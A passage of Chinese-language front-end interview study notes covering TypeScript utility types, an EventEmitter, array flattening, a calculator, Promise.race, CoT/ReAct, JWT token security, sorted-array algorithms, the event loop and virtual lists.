  age: number
}

type UserName = Pick<User, 'name'>

type UserWithoutAge = Omit<User, 'age'>


type PartialUser = Partial<User>

// 等价于：
type PartialUser = {
  id?: number
  name?: string
  age?: number
}
```

### 手写 Pick（重点🔥）
本质就是：

遍历 K（你要的 key）
从原类型 T 里取对应属性
重新构造一个新类型

👉 核心技术点：
keyof
映射类型（Mapped Types）
in 遍历

type MyPick<T, K extends keyof T> = {
  [P in K]: T[P]
}

keyof T 代表 User 里所有合法的键
这里的 extends 不是“继承”，而是“受限于”或“必须是...的子集”。
你手里的 K ('name' | 'age') 是否都在 keyof User ('name' | 'age' | 'email') 的白名单里？

## 手写发布者订阅， 加个Once

- 发布订阅者模式：定义了一种一对多的依赖关系，让多个订阅者通过事件中心监听发布者的消息，实现对象之间的解耦通信。
发布者无需关心订阅者是谁与数量，仅负责通知事件
- 观察者模式：对象间一对多依赖关系，目标状态变化时自动通知并更新所有观察者。
- 两者的区别
  发布订阅通过事件中心转发消息，发布者不直接联系订阅者；观察者是对象直接订阅目标，变化时被直接通知

  发布订阅模式：像用 微信 订阅公众号，公众号发消息是发到“平台”，平台再推给你，公众号根本不知道你是谁
  观察者模式：像你关注某个 周杰伦，他一发动态直接通知你，是你和他之间的直接关系

  发布订阅中间多了一层“中介（事件中心）”，观察者是“直接盯着目标”

- 应用场景
  发布订阅
  DOM 事件机制（本质也是事件中心分发）
  document.addEventListener('click', handler)
  浏览器负责分发，元素不知道谁在监听
  状态管理库 Zustand
  组件只关心“订阅状态”，不关心谁改的
  Event Bus mitt 
  自定义事件 EventEmitter 自己实现的事件中心

  Node.js
  ```
  // 1. 引入模块并创建实例
const EventEmitter = require('events');
const myEmitter = new EventEmitter();

// 2. 注册监听器 (监听 'hello' 事件)
myEmitter.on('hello', (name) => {
  console.log(`👋 你好, ${name}!`);
});

// 3. 触发事件 (发射 'hello' 事件)
myEmitter.emit('hello', 'Node.js'); 
  ```
✅ 发布订阅
events 模块（核心）
const EventEmitter = require('events')

  观察者
  IntersectionObserver
  MutationObserver
  ```
  // 1. 选中目标节点 (假设页面上有个 id="app" 的元素)
const target = document.getElementById('app');

// 2. 创建观察者实例，定义发现变化后要做什么
const observer = new MutationObserver((mutations) => {
  console.log('🔥 发现DOM变化！', mutations);
});

// 3. 开始观察 (配置：只盯着子节点的增删)
observer.observe(target, { childList: true });

// --- 触发变化 ---
// 执行这行代码，上面就会打印日志
document.getElementById('app').innerHTML = '<p>新内容</p>'; 

// 4. 停止观察 (不再需要时调用)
// observer.disconnect(); 
  ```
  useEffect 监听 state / props
  useEffect(() => {
  // 响应 count 变化
  }, [count])
  组件“观察”数据变化直接响应
  观察者
  文件监听 fs.watch
  流（stream）的数据监听

一句话总结（面试收尾）

👉 有“中间事件中心”就是发布订阅，直接盯对象变化就是观察者

- 手写

```
// 手写发布订阅（EventEmitter）+ once

class EventEmitter {
  constructor() {
    // 事件池：{ eventName: [fn1, fn2, ...] }
    this.events = {}
  }

  // 订阅
  on(event, fn) {
    if (!this.events[event]) {
      this.events[event] = []
    }
    this.events[event].push(fn)
  }

  // 只执行一次的订阅
  once(event, fn) {
    // 包一层函数，用来执行后自动卸载
    const onceFn = (...args) => {
      fn(...args)           // 执行原函数
      this.off(event, onceFn) // 执行完移除自己
    }

    this.on(event, onceFn) // 复用 on
  }

  // 发布
  emit(event, ...args) {
    const fns = this.events[event]
    if (!fns) return

    // 拷贝一份，避免执行过程中被修改
    fns.slice().forEach(fn => fn(...args))
  }

  // 取消订阅
  off(event, fn) {
    const fns = this.events[event]
    if (!fns) return

    this.events[event] = fns.filter(item => item !== fn)
  }
}


/* ===== 使用示例 ===== */

const bus = new EventEmitter()

function fn(data) {
  console.log('on:', data)
}

bus.on('test', fn)

bus.once('test', (data) => {
  console.log('once:', data)
})

bus.emit('test', 1)
// on: 1
// once: 1

bus.emit('test', 2)
// on: 2  （once 已被移除）
```

## 手写数组扁平化，再去用堆和栈的方 法
考察数据结构和api 
- ES6 提供的数组扁平化 API
```
const arr = [1, [2, [3, 4]]]
arr.flat()        // 默认只扁平一层 → [1, 2, [3, 4]]
arr.flat(2)       // 指定层数 → [1, 2, 3, 4]
arr.flat(Infinity)
```
- reduce+concat
```
function flat(arr) {
  return arr.reduce((acc, cur) => {
    return acc.concat(Array.isArray(cur) ? flat(cur) : cur)
  }, [])
}
```
- toString + split
面试点：只适用于纯数字/字符串数组

const arr = [1, [2, [3, 4]]]

arr.toString().split(',').map(Number)
// [1, 2, 3, 4]

优先用 flat，兼容性或考察实现就用 reduce，toString 只作为思路补充

- 递归
遇到数组就递归展开，否则直接 push

```
function flat(arr) {
  const res = []

  for (let item of arr) {
    if (Array.isArray(item)) {
      res.push(...flat(item)) // 递归展开
    } else {
      res.push(item)
    }
  }

  return res
}
```

二、用“栈”实现

用栈模拟递归（DFS），不断展开数组

```
function flatWithStack(arr) {
  const stack = [...arr] // 初始化栈
  const res = []

  while (stack.length) {
    const item = stack.pop()

    if (Array.isArray(item)) {
      stack.push(...item) // 展开再压栈
    } else {
      res.push(item)
    }
  }

  return res.reverse() // 注意顺序
}
```

- 三、用“队列（很多人说堆，其实是队列）”实现
```
function flatWithQueue(arr) {
  const queue = [...arr]
  const res = []

  while (queue.length) {
    const item = queue.shift()

    if (Array.isArray(item)) {
      queue.unshift(...item) // 插到前面继续处理
    } else {
      res.push(item)
    }
  }

  return res
}
```
### 对象扁平化（支持 a.b 嵌套 key）

实现一个 flatten 函数，将多层嵌套对象，拍平为单层对象，key 用 . 拼接，要求：
多层嵌套无限层级
键名拼接使用 .
不处理数组、只处理纯对象
保持原有值

```
const obj = {
  a: 1,
  b: {
    c: 2,
    d: { e: 3 }
  }
};
```

{ "a": 1, "b.c": 2, "b.d.e": 3 }

递归遍历对象每个键值
维护前缀路径，嵌套时拼接 .
值为普通类型：直接挂载到结果
值为对象：递归继续深入遍历

```
function flatten(obj) {
  const res = {};

  // 递归函数：当前对象 + 前置key
  function dfs(target, prefix = '') {
    for (const key in target) {
      // 拼接新key
      const newKey = prefix ? `${prefix}.${key}` : key;
      const val = target[key];

      // 判断是否为纯对象，递归
      if (typeof val === 'object' && val !== null && !Array.isArray(val)) {
        dfs(val, newKey);
      } else {
        res[newKey] = val;
      }
    }
  }

  dfs(obj);
  return res;
}

// 测试
const obj = {
  a: 1,
  b: {
    c: 2,
    d: { e: 3 }
  }
};
console.log(flatten(obj));
// { a: 1, 'b.c': 2, 'b.d.e': 3 }
```


## 写一个函数，可以转化下划线命名到驼峰命名例:adb-cdf ->abdCdf;-qwe-try->qweTry

### 正则
什么是正则
用来匹配和处理字符串的规则工具

场景1：判断是不是手机号
用户输入必须是 11 位数字
const reg = /^1\d{10}$/
console.log(Object.prototype.toString.call(reg))
reg.test('13812345678') // true
reg.test('123456')      // false

^ 开头
1 必须以1开头
\d{10} 后面10位数字
$ 结尾

2. 场景2：提取字符串里的数字

const str = '价格是100元'
const result = str.match(/\d+/)

console.log(result[0]) // 100

\d+：1个或多个数字

match 用来“找内容”

场景3：替换字符串（驼峰转换核心🔥）

const str = 'hello-world'

const res = str.replace(/-(\w)/g, (_, c) => c.toUpperCase())

console.log(res) // helloWorld

-(\w)：匹配 - 后面的字符
()：分组
c：拿到分组内容

- 场景4：去掉多余空格
const str = '   hello world   '

str.trim() // 简单情况

// 或正则：
str.replace(/^\s+|\s+$/g, '')

\s：空白
^ 开头空格
$ 结尾空格
| 或
- 场景5：分割字符串
const str = 'apple,banana orange'

str.split(/[,\s]+/)
// ["apple", "banana", "orange"]


考察点（50字内）：
👉 字符串处理、正则分组替换、边界处理、代码抽象能力
业务场景
CSS 属性转 JS 写法
background-color → backgroundColor
👉 操作 style 或写内联样式时需要转换

```
function toCamel(str) {
  return str.replace(/[-_]+(\w)/g, (_, c) => c.toUpperCase())
}
```

## 给定一个字符串形式表达式，请你实现一个计算器并返回结果，除法向下取整例输入“1+2”返回值3

考察点（50字内）：
👉 字符串解析、栈应用、运算符优先级处理、边界情况与代码实现能力

再补一句面试加分解释👇
👉 本质是把字符串转成“可计算结构”（如栈）并正确处理优先级与括号

思路（面试要先说🔥）

👉 用栈处理优先级：遇到 + - 入栈，* / 直接和栈顶计算
核心是用栈“延迟计算低优先级，立即处理高优先级”
```
function calculate(s) {
  const stack = []
  let num = 0
  let sign = '+' // 记录前一个运算符

  for (let i = 0; i < s.length; i++) {
    const ch = s[i]

    // 构建数字（处理多位数）
    if (ch >= '0' && ch <= '9') {
      num = num * 10 + Number(ch)
    }

    // 遇到运算符 或 到字符串结尾
    if ((isNaN(ch) && ch !== ' ') || i === s.length - 1) {
      if (sign === '+') {
        stack.push(num)
      } else if (sign === '-') {
        stack.push(-num)
      } else if (sign === '*') {
        stack.push(stack.pop() * num)
      } else if (sign === '/') {
        // 向下取整（关键点🔥）
        const prev = stack.pop()
        stack.push(Math.floor(prev / num))
      }

      sign = ch // 更新运算符
      num = 0   // 重置数字
    }
  }

  // 求和
  return stack.reduce((a, b) => a + b, 0)
}
```

## 手写一个confirm组件，用react + ts

一、考察点（面试表达🔥）

👉 组件设计能力、状态控制、异步交互（Promise）、Portal 渲染、类型设计（TS）、解耦调用方式

- 表达
基于 React 18 createRoot 实现命令式调用。核心利用动态创建 DOM 挂载至 body 以突破层级限制，通过 Promise 封装支持 async/await 语法，并在交互后调用 unmount 彻底卸载，确保无内存泄漏。

它是 React 18 的新入口 API，用于开启并发渲染模式，让 React 能智能暂停、中断或恢复渲染任务，从而大幅提升页面性能和响应速度。

## Cot & ReAct

CoT（Chain of Thought）是让模型一步步思考。

ReAct是在思考的基础上，让模型可以调用工具去行动。

## Cot

比如: 一个商品100块，打8折再减10块，多少钱？

普通Prompt 
直接回答结果
模型可能直接说：70

CoT Prompt
请一步一步思考，并给出最终答案
模型会输出：

原价100
打8折：100 * 0.8 = 80
再减10：80 - 10 = 70
最终答案：70

好处：

更准确
可解释（面试官很喜欢这个点）

CoT本质是Prompt Engineering，不需要额外训练。
1.mjs

适用场景：

数学推理
逻辑推理
多步骤问题

### 再讲 ReAct（重点）
“ReAct = Reason（推理） + Act（行动）”

它不仅会想，还可以调用工具，比如查数据库、调API。

问题：

“东京今天天气怎么样？适不适合跑步？”

只有 CoT

模型只能“猜天气”

ReAct

模型流程：

Thought: 我需要获取东京天气
Action: 调用天气API
Observation: 返回天气数据
Thought: 根据天气判断是否适合跑步
Final Answer: ...

JS + OpenAI（函数调用实现 ReAct）

现在用 function calling / tools

“ReAct其实就是让LLM具备Agent能力，通过工具调用，把‘思考’和‘执行’结合起来。”

ReAct.py

这段代码使用 LangChain 构建了一个基于 ReAct 框架的智能体。
它首先加载了搜索和计算工具，并定义了标准的 ReAct 提示词模板。接着，通过 create_react_agent 创建智能体，并用 AgentExecutor 进行封装。
最后，它执行了一个任务：让智能体自主调用工具搜索玫瑰花价格，并计算加价 5% 后的定价，最终输出结果。

## Promise.race
谁先“有结果”settle（resolve 或 reject），就返回谁的结果。
不是谁先“成功”，而是谁先“结束”

- 记忆关键点
1）返回一个新的 Promise
race 本身就是返回 Promise
2）遍历传入的 iterable
支持数组或类数组结构
3）对每一项做 Promise.resolve 包装
因为传入的不一定是 Promise，可能是普通值
Promise.resolve(item)
4）只要有一个先执行，就直接触发外层 resolve / reject

边界情况
空数组 → 返回的 Promise 永远 pending
非 Promise 值 → 会被 Promise.resolve 包装后立即 resolve
多个同时 resolve → 只认第一个触发的

```
Promise.myRace = function (iterable) {
  return new Promise((resolve, reject) => {
    for (const item of iterable) {
      Promise.resolve(item).then(resolve, reject);
    }
  });
};
```

Promise.race（包括 Promise.all 等）并不会“取消”其他 Promise，只是忽略它们的结果。

## 写一个函数输入0返回1输入1返回0有多少种写法

考察对 能否用多种方式（if、三元、位运算、数组映射等）实现同一逻辑，体现代码表达能力与灵活性。

- 基础写法
function fn(x) {
  if (x === 0) return 1;
  if (x === 1) return 0;
}

- 三元表达式
const fn = x => (x === 0 ? 1 : 0);

- 数组映射
const fn = x => [1, 0][x];

- 位运算（加分🔥）
异或运算^  0-》1 1-》0
const fn = x => x ^ 1;

## 大模型为什么是无状态的，无记忆的

大模型本质是基于 Transformer 的概率生成模型，每次推理只依赖当前输入 token，并不会在内部长期保存用户状态，所以是“无状态、无记忆”的。

Transformer 就是现在所有大语言模型（LLM）的核心骨架，靠注意力机制看懂上下文、理解语言，让 AI 能流畅聊天写文章。

上下文其实是通过 prompt 临时拼进去的，而不是模型真的记住了。

解决方案一般有几种：一是上下文编程，把历史对话拼进 prompt；二是做 RAG（检索增强生成），通过 embedding 检索相关内容再喂给模型；三是做 memory 管理，比如对历史做截断、摘要压缩，或者向量化存储实现长期记忆。

本质就是：模型不记忆，记忆在AI工程侧。


## 双token
- 双token 存在哪？
  双 token 一般是：accessToken 放前端（内存或 localStorage），refreshToken 放后端或 HttpOnly Cookie。

accessToken 用于每次请求携带认证，生命周期短；refreshToken 更安全，用来换新 token，一般不让 JS 直接访问（防 XSS）。

  本质是：用短期 token 提高安全性，用长期 token 保证用户体验。

- 如何保证JWT的安全性 
  - 传输用HTTPS
  - 存储用HttpOnly Cookie
  使用 HttpOnly Cookie 是比 localStorage 更安全的选择，尤其是在存储像 JWT 这样的敏感认证令牌时。
  localStorage 中的数据可以被页面上的任何 JavaScript 代码读取 XSS 攻击
  HttpOnly 是一个服务器设置的标志，它告诉浏览器：“这个 Cookie 绝不允许通过 JavaScript (如 document.cookie) 访问。

  你可能会问，那为什么还有人用 localStorage？因为 HttpOnly Cookie 并非完美，它引入了另一个安全问题：跨站请求伪造 (CSRF)。

  CSRF 风险：Cookie 的一个特性是浏览器会在请求时自动携带。攻击者可以诱导已登录的用户访问一个恶意网站，该网站会向你的网站发起请求（例如转账），浏览器会自动带上你的认证 Cookie，导致请求成功。

  如何防御：这个风险是完全可控的。业界有成熟且简单的方案：
SameSite 属性：在设置 Cookie 时，加上 SameSite=Strict 或 SameSite=Lax，可以阻止大部分跨站请求携带 Cookie。
CSRF Token：在表单或请求头中加入一个服务器生成的、攻击者无法预测的随机令牌进行二次校验。

  - 设计上用短效Access Token配合Refresh Token
    Access Token：短效（如 15 分钟），用于访问业务接口，过期即失效。
    Refresh Token：长效（如 7 天），专用于在 Access Token 过期后换取新令牌，保障用户无感续期。

- 并结合Redis实现主动失效
  redis 是内存数据库 key=>value
  利用 Redis 建立黑名单。一旦需要强制下线，只需将 Token ID 加入名单，服务端校验时即可立即拦截，打破 JWT 无法主动撤销的限制。

## 合并两个有序数组

给你两个按 非递减顺序 排列的整数数组 nums1 和 nums2，另有两个整数 m 和 n ，分别表示 nums1 和 nums2 中的元素数目。

请你 合并 nums2 到 nums1 中，使合并后的数组同样按 非递减顺序 排列。

核心考点：双指针。通常要求从后往前遍历（因为 nums1 后面有预留空间），这样就不需要额外的空间，时间复杂度 zO(m+n) 。
```
/**
 * @param {number[]} nums1 - 第一个数组，且尾部有足够的空间
 * @param {number} m - nums1 中有效元素的个数
 * @param {number[]} nums2 - 第二个数组
 * @param {number} n - nums2 中元素的个数
 * @return {void} Do not return anything, modify nums1 in-place instead.
 */
var merge = function(nums1, m, nums2, n) {
    // 1. 定义三个指针
    let i = m - 1;      // 指向 nums1 有效元素的尾部
    let j = n - 1;      // 指向 nums2 的尾部
    let k = m + n - 1;  // 我们要填入数据的位置

    // 2. 当两个数组都还有元素时，比较并填入
    while (i >= 0 && j >= 0) {
        if (nums1[i] > nums2[j]) {
            // 如果 nums1 的当前元素更大，把它放到后面
            nums1[k] = nums1[i];
            i--; // nums1 指针前移
        } else {
            // 如果 nums2 的当前元素更大（或相等），把它放到后面
            nums1[k] = nums2[j];
            j--; // nums2 指针前移
        }
        k--; // 填充位置指针前移
    }

    // 3. 处理剩余元素
    // 注意：如果 nums1 还有剩余，它们本来就在正确的位置，不用管
    // 只有当 nums2 还有剩余时，才需要把它们搬运过来
    while (j >= 0) {
        nums1[k] = nums2[j];
        j--;
        k--;
    }
};
```


## 寻找两个正序数组的中位数（Median of Two Sorted Arrays）


中位数就是把数据排好序后，正中间的那个数。
- 先用快排， 再用下标取中间的 o(nlogn)
  题目要求 O(log(m+n))
- 合并数组：O(m+n)（遍历所有元素）

- 常考二分查找 + 分割数组思路
- 这题的两个数组本身就是**各自有序
  

O(m+n)
双指针模拟归并。无需合并数组，只需比较指针元素大小，迭代至中位数位置即可。

奇数 返回最后一个取到的数
偶数 返回中间两个数的平均值

“发扑克牌”的例子来打比方
模拟发牌
想象你有两摞已经排好序的扑克牌：
nums1：第一摞牌（比如是 [1, 3, 5]）
nums2：第二摞牌（比如是 [2, 4, 6]）

你的目标是：把这两摞牌合并成一摞有序的牌，然后找出正中间的那张牌（中位数）。

但是！ 你不需要真的把牌全部合并好放在桌子上（那样太占地方，也浪费时间）。你只需要一张一张地发牌，发到中间那张停下来就行了。

```
var findMedianSortedArrays = function(nums1, nums2) {
    const m = nums1.length;
    const n = nums2.length;
    // 算出总共有多少张牌。
    const totalLen = m + n;
    // 向下取整
    const mid = Math.floor(totalLen / 2);
    // 双指针
    <!-- i：指着第一摞牌（nums1）的当前牌。 -->
    let i = 0, j = 0;
    <!-- 指着第二摞牌（nums2）的当前牌。 -->
    let left = 0, right = 0; // 记录中位数位置的数值

    // 我们只需要遍历到中位数的位置即可，不需要遍历完
    for (let k = 0; k <= mid; k++) {
      <!-- 我们拿两个小盒子，left 和 right。
        right存当前数
        left存前一个数
        正好凑齐偶数所需的中间两个数
       -->
        left = right; // 记录前一个值（用于偶数情况）
        
        // 双指针比较：谁小取谁
        // 若nums1没发完 且 nums2已发完或nums1当前更小）
        if (i < m && (j >= n || nums1[i] < nums2[j])) {
            right = nums1[i++];
        } else {
          // nums2 的牌更小 
          // nums1 的牌已经发完了
          // nums2 还有牌，且 nums1 的牌更大
            right = nums2[j++];
        }
    }

    // 如果是偶数，返回中间两个数的平均值；如果是奇数，返回最后一个取到的数
    return (totalLen % 2 === 0) ? (left + right) / 2 : right;
};
```
最优解
- 因为两个数组本身就是有序的，我们其实不用真的把它们合并，只需要找到一个“分割点”，让左右两边满足“中位数条件”就行。

  想象把两个数组“拼成一条虚拟的有序数组”，中位数就是把它从中间切一刀。

  我们可以在第一个数组里用二分去猜这个“切的位置”，然后根据这个位置，推算出第二个数组该切在哪。

  左边所有数 ≤ 右边所有数 ✅
👉 说明切对了，中位数就能直接算出来

  如果不满足：

说明切偏了
👉 用二分调整位置（往左或往右）

  本质就是：利用数组有序性，通过二分“猜分割点”，而不是合并数组，从而把复杂度降到 O(log n)。

```
/**
 * @param {number[]} nums1 - 第一个正序数组
 * @param {number[]} nums2 - 第二个正序数组
 * @return {number} - 返回两个数组合并后的中位数
 */
var findMedianSortedArrays = function(nums1, nums2) {
    // 1. 确保 nums1 是较短的那个数组。
    // 这样做是为了让二分查找的范围更小，优化时间复杂度。
    // 谁短谁当 nums1，这样搜索范围最小，猜的次数最少，程序跑得最快。 
    if (nums1.length > nums2.length) {
        [nums1, nums2] = [nums2, nums1];
    }

    const m = nums1.length;
    const n = nums2.length;
    let low = 0, high = m; // 在较短的数组 nums1 上进行二分查找

    // 2. 开始二分查找，寻找那个完美的“分割点”
    while (low <= high) {
        // 在 nums1 中“猜”一个分割位置 i
        // i 代表 nums1 左半部分有多少个元素
        const i = Math.floor((low + high) / 2);

        // 根据 i，推算出 nums2 的分割位置 j
        // 目标是让左右两边的元素总数相等（或左边多一个）
        // total_left = (m + n + 1) / 2 是左半边应有的元素总数
        // +1 的核心作用是为了兼容奇数和偶数的情况
        // 如果总数是偶数：左边和右边数量相等。 
        // 如果总数是奇数：通常规定左边比右边多 1 个（这样中位数就是左边的最大值）。
        //  奇数时左边多一个
        const j = Math.floor((m + n + 1) / 2) - i;

        // 3. 定义分割线两侧的四个关键元素
        // 处理边界情况：如果分割线在数组最左边，左边最大值设为负无穷
        // 如果分割线在数组最右边，右边最小值设为正无穷
        // nums1[i - 1] 左边数字的最后一个 
        const maxLeftA = (i === 0) ? -Infinity : nums1[i - 1]; // nums1 左半边的最大值
        // 正无穷 右边第一个
        const minRightA = (i === m) ? Infinity : nums1[i];     // nums1 右半边的最小值
        const maxLeftB = (j === 0) ? -Infinity : nums2[j - 1]; // nums2 左半边的最大值
        const minRightB = (j === n) ? Infinity : nums2[j];     // nums2 右半边的最小值

        // 4. 检查分割是否正确：左边所有数 ≤ 右边所有数
        <!-- 数组1左边的最大值，必须小于等于 数组2右边的最小值。
        数组2左边的最大值，必须小于等于 数组1右边的最小值。
         -->
        if (maxLeftA <= minRightB && maxLeftB <= minRightA) {
            // ✅ 说明切对了！找到了完美的分割线，可以计算中位数了
            if ((m + n) % 2 === 0) {
                // 总长度为偶数：中位数是 (左半边最大值 + 右半边最小值) / 2
                return (Math.max(maxLeftA, maxLeftB) + Math.min(minRightA, minRightB)) / 2;
            } else {
                // 总长度为奇数：中位数就是左半边的最大值
                return Math.max(maxLeftA, maxLeftB);
            }
        } else if (maxLeftA > minRightB) {
            // ❌ 说明切偏了：nums1 的左边太大了，需要把分割线 i 向左移动
            high = i - 1;
        } else {
            // ❌ 说明切偏了：nums1 的左边太小了，需要把分割线 i 向右移动
            low = i + 1;
        }
    }
    
    // 理论上不会执行到这里
    return 0;
};
```

## 微任务、宏任务

宏任务是宿主发起的异步任务（如定时器、事件），微任务是引擎发起的异步任务（如 Promise）。事件循环每轮执行一个宏任务后，会立即清空所有微任务，因此微任务优先级更高。

JavaScript 引擎（如 V8）是单线程的，它自己干不了耗时的事（比如等网络请求、等定时器）。

宿主环境（浏览器或 Node.js）站了出来。宿主环境是多线程的（或者说是多进程的），它有专门的线程去处理这些杂活（比如浏览器的“定时器线程”、“网络线程”）。

JS 把活甩给宿主，宿主在后台（其他线程/进程）搞定，搞定后再通知 JS。

setTimeout 属于浏览器的定时触发器线程。该线程独立于 JS 引擎，负责计时；时间到达后，将回调函数加入宏任务队列，等待主线程空闲时执行。 

setTimeout 设定的时间只是一个最短的等待时间，而非精确的执行时间。回调函数的实际执行时间会晚于预期

当设定的时间到达后，回调函数只是被放入了任务队列。它必须等待当前主线程上的所有同步代码以及微任务队列清空后，才能被执行。如果主线程正忙于处理一个耗时很长的同步任务（如复杂计算），回调就会被延迟。

浏览器对定时器的最小延迟有规定。根据 HTML5 规范，当 setTimeout 的嵌套层级超过 5 层时，即使你将延迟设置为小于 4 毫秒的值，浏览器也会强制将其调整为至少 4 毫秒。

为了节省电量和系统资源，当用户切换到其他标签页时，浏览器会降低后台标签页中定时器的执行频率。例如，Chrome 浏览器可能会将后台页面的 setTimeout 延迟限制到 1000 毫秒以上。

## setTimeout 实现setInterval
定时器机制 + 递归调度 + 边界控制

setInterval 是“固定间隔执行”，但它有个问题：
👉 不管任务有没有执行完，时间一到就继续触发（可能堆积）

用 setTimeout 可以改成：
👉 每次执行完，再决定下一次什么时候执行

本质就是：用递归 setTimeout 模拟循环调度

```
function mySetInterval(fn, delay) {
  let timer = null;     // 用来存定时器ID
  let isCleared = false; // 标记是否被清除（模拟 clearInterval）

  function loop() {
    // 如果已经被清除，就不再执行
    if (isCleared) return;

    // 核心：用 setTimeout 递归调用
    timer = setTimeout(() => {
      fn();     // 执行任务
      loop();   // 再次调度下一次执行
    }, delay);
  }

  // 启动第一次
  loop();

  // 返回一个清除函数（模拟 clearInterval）
  return function clear() {
    isCleared = true;
    clearTimeout(timer);
  };
}
```

const stop = mySetInterval(() => {
  console.log("执行一次");
}, 1000);

// 3秒后停止
setTimeout(() => {
  stop();
}, 3000);

为什么不用 setInterval？

因为 setInterval 不管任务是否执行完，时间一到就触发
👉 可能导致任务堆积 / 执行重叠

setTimeout 的优势

可以保证：任务执行完 → 再开始计时下一次
👉 更可控、更安全

用 setTimeout 递归调用，实现“执行完再调度”的定时器，比 setInterval 更可控。

## 虚拟列表

虚拟列表是一种性能优化方案，用于处理大量数据渲染问题。正常情况下，如果一次性渲染几千条列表，会导致页面卡顿，因为 DOM 太多。虚拟列表的核心思想是：只渲染可视区域内的元素，其他元素不渲染，用占位高度撑开滚动条。随着滚动动态替换内容。

### 计算规则

你有 10000 条数据，每一条高度都是 固定 50px

屏幕（可视区域）高度是 300px

总列表（很长）
│
│   ↑ scrollTop（滚动距离）
│
├───────────────
│   可视区域（300px）
│   [第 ? 条]
│   [第 ? 条]
│   [第 ? 条]
│   [第 ? 条]
│   [第 ? 条]
│   [第 ? 条]
├───────────────


- 当前从第几条开始显示？
startIndex = Math.floor(scrollTop / itemHeight)
含义：滚动了多少，就跳过多少条

- 可视区域能放多少条？
visibleCount = Math.ceil(containerHeight / itemHeight)

含义：屏幕能装几条

- 结束位置

endIndex = startIndex + visibleCount

scrollTop = 120px
itemHeight = 50px
containerHeight = 300px

startIndex = 120 / 50 = 2（从第2条开始）
visibleCount = 300 / 50 = 6（显示6条）
endIndex = 2 + 6 = 8

渲染第 2 ~ 8 条数据

## 优化
加“缓冲区

如果只渲染“刚好可视区域”的元素，一滚动就会出现白屏 / 闪烁
原因是：

滚动是连续的
但渲染是有延迟的（JS计算 + DOM更新）

用户已经滚动了，但新元素还没来得及渲染

总列表
│
│   ↑ scrollTop
│
├────────────────────
│   ↑ 上缓冲区（提前渲染）
│   [第0条]
│   [第1条]
│
│   可视区域
│   [第2条]
│   [第3条]
│   [第4条]
│   [第5条]
│   [第6条]
│   [第7条]
│
│   ↓ 下缓冲区（提前渲染）
│   [第8条]
│   [第9条]
├────────────────────

实际渲染范围变成：

buffer + 可视区域 + buffer

怎么加缓冲区（核心规则）
✅ 1️⃣ 定义缓冲区数量（比如上下各 2 条）
buffer = 2

修改起点（重点🔥）
startIndex = Math.floor(scrollTop / itemHeight) - buffer

防止越界：

startIndex = Math.max(0, startIndex)

修改结束位置
endIndex = startIndex + visibleCount + buffer * 2

同样防止越界：

endIndex = Math.min(total, endIndex)

scrollTop = 120
itemHeight = 50
containerHeight = 300
buffer = 2

计算：

startIndex = 2 - 2 = 0
visibleCount = 6
endIndex = 0 + 6 + 4 = 10

一句话总结（面试用）

缓冲区的本质是“提前渲染上下元素”，避免滚动过程中出现白屏，让体验更流畅。

## 滚动性能优化（节流 / 防抖）

scroll 事件触发非常频繁，需要用节流控制执行频率

```
function throttle(fn, delay) {
  let lastTime = 0;

  return function (...args) {
    const now = Date.now();

    // 时间间隔到了才执行
    if (now - lastTime >= delay) {
      lastTime = now;
      fn.apply(this, args);
    }
  };
}
```

在虚拟列表中使用

const handleScroll = throttle(function (e) {
  const scrollTop = e.target.scrollTop;

  // 计算 startIndex / endIndex
  const startIndex = Math.floor(scrollTop / itemHeight);
  const endIndex = startIndex + visibleCount;

  // 更新渲染数据
  updateVisibleData(startIndex, endIndex);
}, 16); // 16ms ≈ 60fps   

container.addEventListener("scroll", handleScroll);

进阶写法

let ticking = false;

function handleScroll(e) {
  const scrollTop = e.target.scrollTop;

  if (!ticking) {
    requestAnimationFrame(() => {
      const startIndex = Math.floor(scrollTop / itemHeight);
      const endIndex = startIndex + visibleCount;

      updateVisibleData(startIndex, endIndex);
      ticking = false;
    });

    ticking = true;
  }
}

虚拟列表用节流或 rAF 控制 scroll 频率，避免频繁计算导致卡顿，同时保证滚动流畅。

- IntersectionObserver 图片懒加载

## 如果列表项高度不是固定的（不定高），虚拟列表怎么做？
固定高度时：

startIndex = scrollTop / itemHeight ✅

👉 但不定高：

每一项高度不一样 ❌
无法直接算 index

维护一个“每一项的高度 + 位置信息表”，通过累计高度来计算位置

但不定高就变了
第0条：50px
第1条：80px
第2条：30px
第3条：100px

👉 这时候：

滚动 150px 到哪？

解决思路（核心）

👉 不再“算”，而是“记”

我们维护两张表👇

✅ 1️⃣ 高度表（heights）
index:    0    1    2    3
height:  50   80   30  100

位置表（positions）（重点🔥）
index:       0    1    2    3
累计高度:   50  130  160  260

怎么用它？

比如：

scrollTop = 150

👉 在 positions 里找：

50   ❌
130  ❌
160  ✅ ← 第一个 >=150

👉 所以：

当前在第 2 条

记录每一项高度

heights[index]

维护前缀和（累计高度）

positions[index] = 前 index 项总高度

用二分查找 startIndex（关键🔥）

找到第一个 positions[i] >= scrollTop

👉 因为 positions 是递增的 → 可以二分

渲染后动态更新高度

用 ResizeObserver 或 ref 测量真实高度

不定高的本质是：用“前缀和 + 二分查找”替代固定高度公式。

修改点一：新增高度缓存
const heights = useRef<number[]>([]);
const positions = useRef<number[]>([]);

修改点二：计算 positions（前缀和）
function initPositions(list: Item[]) {
  const pos: number[] = [];
  let sum = 0;

  for (let i = 0; i < list.length; i++) {
    const h = heights.current[i] || ITEM_HEIGHT; // 初始用估算高度
    sum += h;
    pos[i] = sum;
  }

  positions.current = pos;
}
修改点三：二分查找 startIndex（核心🔥）
function getStartIndex(scrollTop: number) {
  const pos = positions.current;

  let left = 0;
  let right = pos.length - 1;

  while (left < right) {
    const mid = Math.floor((left + right) / 2);

    if (pos[mid] < scrollTop) {
      left = mid + 1;
    } else {
      right = mid;
    }
  }

  return left;
}

修改点四：更新 update 逻辑
const update = (scrollTop: number) => {
  let startIndex = getStartIndex(scrollTop) - BUFFER;
  startIndex = Math.max(0, startIndex);

  let endIndex = startIndex + visibleCount + BUFFER * 2;
  endIndex = Math.min(list.length, endIndex);

  setStart(startIndex);
  setVisibleData(list.slice(startIndex, endIndex));
};

修改点五：动态测量高度（关键🔥）
function ListItem({ item, index, onResize }: any) {
  const ref = useRef<HTMLDivElement>(null);

  useEffect(() => {
    const el = ref.current;
    if (!el) return;

    const observer = new ResizeObserver(() => {
      const height = el.offsetHeight;
      onResize(index, height);
    });

    observer.observe(el);

    return () => observer.disconnect();
  }, []);

  return (
    <div ref={ref}>
      {/* 原内容 */}
    </div>
  );
}
✅ 修改点六：更新高度并重新计算
const onResize = (index: number, height: number) => {
  if (heights.current[index] !== height) {
